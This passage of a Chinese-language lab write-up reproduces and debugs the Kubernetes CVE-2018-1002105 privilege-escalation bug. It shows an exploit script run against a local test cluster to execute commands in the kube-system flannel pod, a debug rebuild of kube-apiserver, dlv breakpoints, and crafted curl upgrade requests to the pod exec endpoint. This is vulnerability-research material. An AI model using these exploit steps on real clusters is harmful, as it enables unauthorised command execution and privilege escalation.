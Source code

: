 ```
kubectl get po --all-namespaces
ln -sf test_config .kube/config
kubectl apply -f test_pod.yaml
```
8. 下载利用脚本[cve-2018-1002105.py](/assets/py/cve-2018-1002105.py)
9. 查看正在运行的`pod`
```
python3 cve-2018-1002105.py -t 172.17.0.2:6443 -p test -f ./test.crt -k ./test.key
```
10. 在`kube-flannel`中执行命令
```
python3 cve-2018-1002105.py -t 172.17.0.2:6443 -p test -f ./test.crt -k ./test.key -s kube-system -e kube-flannel-ds-mh56p -c kube-flannel -x "ps -ef"
```
11. 下载[kubernets 1.11.1](https://github.com/kubernetes/kubernetes/archive/refs/tags/v1.11.1.tar.gz)并拷贝到容器中
12. 编译`kube-apiserver`
```
cd kubernetes-1.11.1
make WHAT=cmd/kube-apiserver GOGCFLAGS="-N -l" GOLDFLAGS=""
```
13. 替换正在运行的`kube-apiserver`
```
mv /etc/kubernetes/manifests/kube-apiserver.yaml /tmp
nohup /root/kubernetes-1.11.1/_output/bin/kube-apiserver --authorization-mode=Node,RBAC --advertise-address=172.17.0.2 --allow-privileged=true --client-ca-file=/etc/kubernetes/pki/ca.crt --disable-admission-plugins=PersistentVolumeLabel --enable-admission-plugins=NodeRestriction --enable-bootstrap-token-auth=true --etcd-cafile=/etc/kubernetes/pki/etcd/ca.crt --etcd-certfile=/etc/kubernetes/pki/apiserver-etcd-client.crt --etcd-keyfile=/etc/kubernetes/pki/apiserver-etcd-client.key --etcd-servers=https://127.0.0.1:2379 --insecure-port=0 --kubelet-client-certificate=/etc/kubernetes/pki/apiserver-kubelet-client.crt --kubelet-client-key=/etc/kubernetes/pki/apiserver-kubelet-client.key --kubelet-preferred-address-types=InternalIP,ExternalIP,Hostname --proxy-client-cert-file=/etc/kubernetes/pki/front-proxy-client.crt --proxy-client-key-file=/etc/kubernetes/pki/front-proxy-client.key --requestheader-allowed-names=front-proxy-client --requestheader-client-ca-file=/etc/kubernetes/pki/front-proxy-ca.crt --requestheader-extra-headers-prefix=X-Remote-Extra- --requestheader-group-headers=X-Remote-Group --requestheader-username-headers=X-Remote-User --secure-port=6443 --service-account-key-file=/etc/kubernetes/pki/sa.pub --service-cluster-ip-range=10.96.0.0/12 --tls-cert-file=/etc/kubernetes/pki/apiserver.crt --tls-private-key-file=/etc/kubernetes/pki/apiserver.key &
```
14. 使用`dlv`调试（用gdb调试在执行下一步的时候会频繁切换到其他线程，dlv则不会）
```
sh# dlv attach $(pidof kube-apiserver)
dlv# b upgradeaware.go:298
dlv# b upgradeaware.go:308
dlv# b upgradeaware.go:322
dlv# config -list
dlv# config max-string-len 99999
dlv# config max-array-values 99999
dlv# c
sh# curl -k --http1.1 --cert ./test.crt --key ./test.key -H "Connection: upgrade" -H "Upgrade: websocket" -H "Origin: http://172.17.0.2:6443" https://172.17.0.2:6443/api/v1/namespaces/default/pods/test/exec
dlv# p rawResponse
sh# echo 72,84,84,80,47,49,46,49,32,52,48,48,32,66,97,100,32,82,101,113,117,101,115,116,13,10,68,97,116,101,58,32,70,114,105,44,32,48,54,32,77,97,121,32,50,48,50,50,32,48,57,58,49,49,58,53,57,32,71,77,84,13,10,67,111,110,116,101,110,116,45,76,101,110,103,116,104,58,32,53,50,13,10,67,111,110,116,101,110,116,45,84,121,112,101,58,32,116,101,120,116,47,112,108,97,105,110,59,32,99,104,97,114,115,101,116,61,117,116,102,45,56,13,10,13,10,121,111,117,32,109,117,115,116,32,115,112,101,99,105,102,121,32,97,116,32,108,101,97,115,116,32,49,32,111,102,32,115,116,100,105,110,44,32,115,116,100,111,117,116,44,32,115,116,100,101,114,114 | awk -F',' '{for(i=1;i<NF;i++) printf("%c",$i);printf("\n")}'
sh# curl -k --http1.1 --cert ./test.crt --key ./test.key -H "Connection: upgrade" -H "Upgrade: websocket" -H "Origin: http://172.17.0.2:6443" -H "Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==" -H "Sec-WebSocket-Version: 13" "https://172.17.0.2:6443/api/v1/namespaces/default/pods/test/exec?command=hostname&stdout=1&stderr=1&tty=0"
```